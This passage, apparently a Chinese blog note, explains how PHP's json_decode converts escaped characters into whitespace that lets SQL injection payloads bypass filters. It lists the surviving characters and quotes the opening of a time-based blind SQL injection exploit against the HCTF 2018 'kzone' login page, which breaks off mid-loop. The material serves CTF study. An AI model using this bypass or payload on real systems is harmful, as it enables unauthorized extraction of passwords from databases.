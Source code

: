 ```php
{
printf("%x",ord($id[$i]));
echo ",";
}
$arc = getArticleInfo($id);
?>
```
为了方便(偷懒), 我就不用URL构造输入了， 直接手动传参

比如有一只小黑(我)，构造了一个 `?id={'id':'31 and 1=1'}`
```php
<?php
/**
 * Created by PhpStorm.
 * User: zz
 * Date: 2019/5/2
 * Time: 18:22
 */

$id_json = '{"id":"31 and 1=1"}';

$id = json_decode($id_json)->id;

var_dump($id);

for($i = 0; $i < strlen($id); $i ++)
{
    printf("%x",ord($id[$i]));
    echo ",";
}
```
输出的结果如下：
```
string(10) "31 and 1=1"
33,31,20,61,6e,64,20,31,3d,31,
```
很正常， 之后这个被`json_decode`过的数据可以直接构造`sql`语句去查询数据库了

如果小黑输入的是 `?id={'id':'31 and\n1=1'}`

结果：
```
string(10) "31 and
1=1"
33,31,20,61,6e,64,a,31,3d,31,
```
很神奇吧， `\n`被解析成换行符了

之后进行测试发现
`%20 %2B \f \n \r \t \u0009 \u000A \u000B \u000C \u000D \u0020 \u002B`这些字符能够存活下来


参见hctf2018一道web题目 `kzone`
[wp](https://xz.aliyun.com/t/3256#toc-3)
还没来得及复现
先看一下exp
```python
import requests
import time
url = "http://kzone.2018.hctf.io/admin/login.php"
flag = ''
dic = "0123456789abcdefghijklmnopqrstuvwxyz{}_ABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&()*+|,-./:;<=>?@"
for x in range(1,50):
    for i in dic:
        startTime = time.time()
        #poc = "'\u006fr\u0020su\u0062str(passwo\u0072d,{0},1)\u003d'{1}'\u0020and\u0020sl\u0065ep(6)\u0023".format(x,chr(i))
```